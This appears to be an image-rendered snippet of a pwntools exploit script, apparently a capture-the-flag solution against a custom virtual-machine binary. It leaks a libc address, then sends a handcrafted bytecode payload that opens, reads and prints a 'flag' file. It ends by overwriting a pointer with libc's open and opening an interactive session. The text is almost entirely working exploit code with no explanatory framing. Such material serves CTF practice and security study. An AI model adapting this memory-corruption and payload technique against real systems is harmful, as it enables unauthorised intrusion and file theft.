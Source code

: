 ```python
io.sendafter("say:", payload)

io.recvuntil("bye~\n")

libc.address = u64(io.recvuntil("\n", drop=True).ljust(8, "\x00")) - libc.sym['read']

'''
flag
0x6d * 0x50
mov reg[1], elf.address+0x203900
mov reg[2], 8
read
mov reg[0], heap+0x2d60
mov reg[1], 0
open
mov reg[0], 3
mov reg[1], bss
mov reg[2], 0x30
read
mov reg[0], 1
mov reg[1], bss
mov reg[2], 0x30
write
'''

payload = "flag\x00"
payload = payload.ljust(0x50, "\x6d")
payload += "\x12" + p64(elf.address+0x2038f8)
payload += "\x13" + p64(8)
payload += "\x8f\x00"
payload += "\x11" + p64(heap+0x2d60)
payload += "\x6e"
payload += "\x8f\x03"
payload += "\x11" + p64(3)
payload += "\x12" + p64(elf.bss()+0x400)
payload += "\x13" + p64(0x30)
payload += "\x8f\x00"
payload += "\x11" + p64(1)
payload += "\x12" + p64(elf.bss()+0x400)
payload += "\x13" + p64(0x30)
payload += "\x8f\x01"

io.send(payload)

sleep(0.03)

io.send(p64(libc.sym['open']))

io.interactive()
io.close()

```


